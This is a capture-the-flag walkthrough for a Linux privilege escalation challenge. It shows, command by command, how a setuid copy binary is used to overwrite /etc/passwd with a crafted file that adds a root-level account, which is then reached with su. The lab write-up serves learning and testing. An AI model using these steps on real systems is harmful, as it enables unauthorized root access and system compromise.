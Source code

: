 # OBJECTIVE 7 - Linux PrivEsc #

## OBJECTIVE : ##
>Rosemold is in Ostrich Saloon on the Island of Misfit Toys.  Give her a hand with escalation for a tip about hidden islands.
#  

## HINTS: ##
<details>
  <summary>Hints provided for Objective 5</summary>
  
>-  There's [various ways](https://payatu.com/blog/a-guide-to-linux-privilege-escalation/) to escalate privileges on a Linux system.
>-	Using the privileged binary to overwrite a file to escalate privileges could be a solution, but there's an easier method if you pass it a crafty argument.

</details>

#  

## PROCEDURE : ##

Let’s start this challenge by looking in the `/bin` folder to see what tools we have to our disposition:

``~$ cd /bin``

``/bin$ ls -la | grep rwsr``

```
-rwsr-xr-x 1 root root     85064 Nov 29  2022 chfn
-rwsr-xr-x 1 root root     53040 Nov 29  2022 chsh
-rwsr-xr-x 1 root root     88464 Nov 29  2022 gpasswd
-rwsr-xr-x 1 root root     55528 May 30  2023 mount
-rwsr-xr-x 1 root root     44784 Nov 29  2022 newgrp
-rwsr-xr-x 1 root root     68208 Nov 29  2022 passwd
-rwsr-xr-x 1 root root     16952 Dec  2 22:17 simplecopy
-rwsr-xr-x 1 root root     67816 May 30  2023 su
-rwsr-xr-x 1 root root     39144 May 30  2023 umount
```

This gives us a list of applications we can run with root privileges.  Simplecopy is particularly interesting as it will allow us to copy (and overwrite) and file to any directory with root privileges. So, we should be able to create a new user by overriding the existing `/etc/passwd` file with a manually crafted one.

First, we copy the contents of `/etc/passwd` to a temporary file:

`~$ cat /etc/passwd >> /tmp/new-passwd`

Now we need to create a hashed password.  This can be done using Perl.

`~$ perl -le 'print crypt("snowballz", "abc")'`
```
abCF8jIEHXtsw
```

This gives us a salted hash for password “snowballz”, which we can now assign to a new user called “super-elf” which we append to our new passwd file:

`~$echo super-elf:abCF8jIEHXtsw:0:0:root:/root:/bin/bash >> /tmp/new-passwd`

we can now use simplecopy to overwrite /etc/passwd with our newly crafted file:

`~$ simplecopy /tmp/new-passwd /etc/passwd`

And switch to the newly created root user:

`~$ su super-elf`
```
Password: 
/home/elf#
```

We can now confirm that we now have root privileges 😊

`/home/elf# whoami`
```
Root
```

All that’s left is for us to run the binary in the /root folder:
```
/home/elf# cd /root
~# ./runmetoanswer
```

